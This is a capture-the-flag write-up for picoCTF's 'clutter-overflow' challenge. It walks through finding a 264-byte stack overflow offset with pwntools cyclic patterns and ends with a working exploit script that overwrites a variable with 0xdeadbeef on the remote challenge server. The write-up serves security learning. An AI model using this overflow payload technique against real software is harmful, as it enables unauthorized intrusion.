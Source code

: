 # Challenge name: clutter-overflow

## Description

> Clutter, clutter everywhere and not a byte to use. 
> `nc mars.picoctf.net 31890`

## Approach

Running the provided [binary](./chall) ([source](./chall.c)) we see that it asks for input and then compares some variable to `0xdeadbeef`.

![](./images/first_run.png)

From the source, we know that the `code` variable is declared as a [long](https://www.tutorialspoint.com/cprogramming/c_data_types.htm) which is 64 bits (8 bytes).
If we use the pwntools cyclic module we can wee that we actually can control this code value by overflowing the input buffer.

![](./images/cyclic.png)

If you try to lookup the offset of the resulting pattern you will get an error since pwn cyclic expects 4 bytes by default.
Since we are working with 8 byte values we need to pass another argument to the pattern creation and lookup commands.

![](./images/pwn_needs_4_bytes.png)

![](./images/pwn_8_bytes_lookup.png)

Now all we need to do is append the expected value, run a little [script](./get_flag.py) targeting the remote instance, and grab the flag:

```py
import pwn
pwn.context.log_level='error'
host, port = 'mars.picoctf.net', 31890
padding = 264
payload = pwn.flat(b'A'*padding, pwn.p64(0xdeadbeef))
p = pwn.remote(host,port)
p.recvuntil(b"?\n")
p.sendline(payload)
print(p.recvall().decode().splitlines()[-1])
```

![](./images/flag.png)
